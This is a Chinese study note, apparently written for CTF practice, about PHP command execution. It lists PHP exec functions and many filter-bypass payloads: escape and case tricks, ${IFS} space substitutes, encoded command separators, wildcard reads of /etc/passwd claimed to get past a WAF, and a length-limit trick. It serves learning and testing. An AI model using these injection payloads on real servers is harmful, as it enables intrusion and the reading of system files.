 ```yaml
---
title: 简单命令执行的学习
date: 2022-09-8 16:37:45
tags:
- rce
categories: 
- web
- 笔记
---
```


> 参考: https://blog.csdn.net/qq_44657899/article/details/107676580

# 常见函数

```php
system()
passthru()
exec()
shell_exec()
proc_open()
popen()
pcntl_exec()
dl()
```

# 绕过

## 关键词过滤

### 双写绕过

```ccatat -> cat```

### 大小写绕过

```cAt``

### 代替方案

```php
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容
sh /flag 2>%261  //报错出文件内容
```

### 转义符

```bash
ca\t /fl\ag
cat fl''ag
```

### 变量拼接

```bash
a=fl;b=ag.php;cat$IFS$a$b
```

### 内联执行

```bash
cat `ls` 
# 等同于-->
cat flag.php;cat index.php
```

### 编码进制绕过

```bash
[root~]#  echo 'cat' | base64
Y2F0wqAK
[root~]#  `echo 'Y2F0wqAK' | base64 -d` 1.txt
hello world
```

### 通配符

```bash
1) 利用正则匹配绕过
[root~]# cat /???/pass*
    
2) 例如过滤/etc/passwd中的etc，利用未初始化变量，使用$u绕过
[root~]# cat /etc$u/passwd
    
备注：此方法能绕CloudFlare WAF（出自：https://www.secjuice.com/php-rce-bypass-filters-sanitization-waf/）
```

### 空变量

```bash
使用$*和$@，$x,${x}
ca$*t ./flag
ca$@t ./flag
```

### 读文件替代方案

```bash
curl file:///flag
strings /flag
uniq -c/etc/passwd
bash -v /etc/passwd
rev /etc/passwd
```

### dir和ls的替代

```bash
find -- 列出当前目录下的文件以及子目录所有文件
```

## 空格过滤

- %09（url传递）(`cat%09flag.php`)
- ${IFS}
- \$IFS$9
- <>（`cat<>/flag`）
- <（`cat</flag`）
- {cat,flag}

## 过滤目录分隔符

```bash
;cd flag_is_here;cat *
```

## 过滤 | & ;

### 替代方案

可以使用%0a代替，%0a其实在某种程度上是最标准的命令链接符号

| **注入算子** | **注入字符** | **URL 编码字符** | **执行的命令**                 |
| ------------ | ------------ | ---------------- | ------------------------------ |
| 回车符       | `enter`      | `%0d`            |                                |
| 分号         | `;`          | `%3b`            | 两个都(cmd不行 powershell可以) |
| 换行         | `\n`         | `%0a`            | 两个都                         |
| 后台进程     | `&`          | `%26`            | 两者（通常首先显示第二个输出） |
| 管道         | `|`          | `%7c`            | 两者（仅显示第二个输出）       |
| 和           | `&&`         | `%26%26`         | 两者（仅当第一次成功时）       |
| 或者         | `||`         | `%7c%7c`         | 第二（仅当第一次失败时）       |
| Sub-shell    | ` `` `       | `%60%60`         | 两者（仅限 Linux）             |
| Sub-shell    | `$()`        | `%24%28%29`      | 两者（仅限 Linux）             |

### ?>替代最后一个;

在php中可以用 `?>` 来代替最后一个 `; `因为php遇到定界符关闭标志时，系统会自动在PHP语句之后加上一个分号。

## 字符串长度限制

```bash
root@kali:~/桌面# echo "flag{hahaha}" > flag.txt
root@kali:~/桌面# touch "ag"
root@kali:~/桌面# touch "fl\\"
root@kali:~/桌面# touch "t \\"
root@kali:~/桌面# touch "ca\\"
root@kali:~/桌面# ls -t
'ca\'  't \'  'fl\'   ag   flag
root@kali:~/桌面# ls -t >a     #将 ls -t 内容写入到a文件中
root@kali:~/桌面# sh a
a: 1: a: not found
flag{hahaha}
a: 6: flag.txt: not found
```

`\ `是指换行
`ls -t `将文件按时间排序输出
`sh `命令可以从一个文件中读取命令来执行

具体待补充

## 盲注

还没遇到过,遇到再补充
